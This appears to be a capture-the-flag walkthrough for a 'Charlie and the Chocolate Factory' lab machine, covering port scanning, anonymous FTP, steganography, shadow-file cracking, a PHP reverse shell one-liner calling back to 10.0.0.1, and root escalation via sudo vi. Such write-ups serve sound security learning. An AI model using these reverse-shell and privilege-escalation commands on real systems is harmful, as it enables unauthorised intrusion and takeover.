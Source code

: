 # Charlie and the Chocolate Factory

## Open Ports:
```
nmap -A $IP
```

## netcat 
netcat to all prots from 100 - 125
```
nc $IP 100
nc $IP 113
```
* found a link in port **113** : bit.ly/3igPwZ9
* found a key file in link
* Revers engineering the file
```
strings key
```

## Ftp

* Anonymous login
* found an image 
```
get gumroom.jpg
```
* extract the image
```
steghide extarct -sf gumroom.jpg
```
* found b64.txt which has base64 encoded text
* decoding the text

* user password shadow file found
* crack the shadow file usig johnny


## Port 80
* Enter the username: charlie
* Enter the password found after cracking : cn7824

* After login found a bar that executes os commands
* Gaining reverse shell
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
* start listner
```
nc -lvnp 1234
```

** Now you have the access to the machine**
* go to /home/charlie

```
cat uesr.txt
```
## root 

* start tty
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
* see the permissions you have
```
sudo -l
```

* permission to run *vi* as sudo 
```
sudo vi -c '!/bin/bash'
```
* now you are root
* go to /root
```
python root.py
```
* Enter the key found after reversing

